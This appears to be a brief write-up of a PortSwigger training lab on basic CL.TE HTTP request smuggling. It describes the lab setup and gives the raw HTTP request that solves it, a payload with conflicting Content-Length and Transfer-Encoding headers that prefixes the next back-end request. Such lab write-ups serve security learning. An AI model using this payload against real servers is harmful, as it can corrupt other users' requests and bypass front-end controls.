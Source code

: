 # [Lab: HTTP request smuggling, basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-tehttps://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

## Lab

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST.`

## Characteristics

front-end: CL

back-end: TE

## Solution

```http
POST /post/comment HTTP/1.1
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
